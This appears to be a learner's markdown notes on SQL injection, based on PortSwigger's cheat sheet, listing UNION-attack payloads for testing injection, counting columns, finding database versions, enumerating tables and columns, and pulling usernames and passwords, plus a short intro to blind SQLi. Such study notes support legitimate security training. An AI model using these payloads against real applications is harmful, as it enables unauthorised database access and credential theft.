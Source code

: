 # Portswigger
sql-injection cheat-sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

## SQLi - UNION Attack
When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the UNION keyword to retrieve data from other tables within the database. This is commonly known as a SQL injection UNION attack.

**Note:** don't forget to use url encoding

### Test for SQLi
~~~
jeremy'
jeremy"

jeremy' or 1=1#
jeremy' or 1=1--

jeremy' or 1=2--
~~~


### Number of columns
~~~
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
~~~

finding oclumns with a useful data type
~~~
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
~~~


### Database version
~~~
Oracle 	        SELECT banner FROM v$version
                SELECT version FROM v$instance

Microsoft 	SELECT @@version

PostgreSQL 	SELECT version()

MySQL 	        SELECT @@version
~~~

example
~~~
' UNION SELECT NULL,NULL,version()#
~~~

### Database tables
~~~
Oracle 	    SELECT * FROM all_tables
            SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

Microsoft   SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

PostgreSQL  SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

MySQL 	    SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
~~~

example
~~~
' UNION SELECT NULL,NULL,table_name from information_schema.tables#
~~~
### Database columns
example
~~~
' UNION SELECT NULL,NULL,column_name from information_schema.columns#
~~~

### Interesting data
example
~~~
' UNION SELECT username, password FROM users--
~~~

example - concatenation
~~~
' UNION SELECT username || '~' || password FROM users--
~~~

## SQLi - BLIND Attack
Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

**Note:** UNNION attacks are not effective with blind sql injection.
